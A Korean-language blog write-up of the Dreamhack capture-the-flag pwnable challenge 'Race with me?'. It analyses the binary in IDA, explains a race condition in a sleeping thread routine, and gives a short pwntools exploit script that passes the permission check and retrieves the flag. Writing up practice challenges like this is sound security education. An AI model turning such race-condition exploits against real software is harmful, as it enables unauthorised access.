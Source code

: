 ```yaml
---
layout: post
title: "[Dreamhack] Race with me?"
date: 2025-06-10 10:57 +0900
category: ['Syshack']
tag: ['system', 'dreamhack', 'hacking', 'pwn', 'pwnable', '드림핵', '보안', '시스템', '시스템해킹', '포너블', '해킹']
image: /assets/img/post/race-with-me/image0.png
---
```


> **Dreamhack Syshack Lv.1**

## P1. 문제 분석


문제의 소스 파일을 다운 받아 분석을 시작하자.

Docker 기반의 문제일 경우 Dockerfile에 flag의 위치 정도를 나타내는 명령어가 있을 수 있다. 

Web 문제의 경우 pip lib 등의 버전을 확인할 수 있고, path traversal 기법에 활용할 수 있으니 한번쯤 훑고 지나가는 것이 좋다.

![](/assets/img/post/race-with-me/image1.png)

이 문제에선 flag의 위치와 바이너리의 위치 정도를 나타내는 것을 볼 수 있다.


![](/assets/img/post/race-with-me/image2.png)

문제 파일을 살펴보면 해당 화면이 출력된다.

![](/assets/img/post/race-with-me/image3.png)

1을 입력 시 또 다른 입력을 받는다.

![](/assets/img/post/race-with-me/image4.png)

2를 입력 시 다른 동작 없이 다시 메인 메뉴가 출력된다.

3은 flag를 얻기 위한 입력으로 보이고 4는 프로그램을 종료한다.

문제의 소스 파일에서 소스코드를 제공하지 않기 때문에 ida를 이용해 디스어셈블을 해보자.

문제의 정답인 flag를 얻기위한 기능인 3번에 대한 기능을 먼저 확인한다.
![](/assets/img/post/race-with-me/image5.png)

v3라는 변수가 3이면 qword_4030이라는 변수의 값이 3735928559와 같은지 확인한다.

조건이 맞지 않으면 `Don't have permission1!`라는 문자열을 출력을 한다.

그럼 qword_4030라는 변수의 값을 어떻게 바꿀 수 있을까?

![](/assets/img/post/race-with-me/image6.png)

1을 입력했을 때 받는 입력의 경우 qword_4038이라는 변수에 입력을 받고 있다. 그럼 2를 입력받는 경우를 살펴보자.

![](/assets/img/post/race-with-me/image7.png)

2를 입력한 경우 thread 함수를 실행시킨다.

thread 함수의 원문을 살펴보자
```c
int pthread_create(pthread_t *thread, const pthread_attr_t *attr, void *(*start_routine) (void *), void *arg);
```
함수 3번째 인자에 함수를 입력받는다. 이 인자는 thread 함수를 통해 실행될 함수를 매개로 한다.

그럼 `start_routine` 이라는 함수를 살펴보자.

![](/assets/img/post/race-with-me/image8.png)

qword_4038이 3735928559가 아닐 때 0xA 동안 sleep 후 qword_4030를 qword_4038의 값으로 초기화한다.

이런 경우에 qword_4038에 3735928559라는 값을 입력할 경우 thread 함수가 변수 초기화를 진행하지 않고 바로 끝나버린다.

이는 thread의 경쟁 상태로 해결할 수 있다.

경쟁 상태를 활용하면 thread가 실행 중일 때 실행에 관여하는 데이터가 변동되면 변동된 상태로 실행되게 된다.

## P2. Exploit code

```python
from pwn import *

e = ELF('./chall')
p = e.process()

# 경쟁 상태를 활용한 if문 bypass
p.sendlineafter(b'Input: ', str(2).encode())
p.sendlineafter(b'Input: ', str(1).encode())
p.sendlineafter(b'Input: ', str(3735928559).encode())

# thread routine 기다리기
sleep(0xa)

# Get flag
p.sendlineafter(b'Input: ', str(3).encode())

p.interactive()
```

![](/assets/img/post/race-with-me/image9.png)

따로 서버 요청없이 로컬에서 진행했기 때문에 Fake flag가 나왔지만 remote로 동작시키면 똑같이 동작할 것이다.

![](/assets/img/post/race-with-me/image10.png)

**clear!**
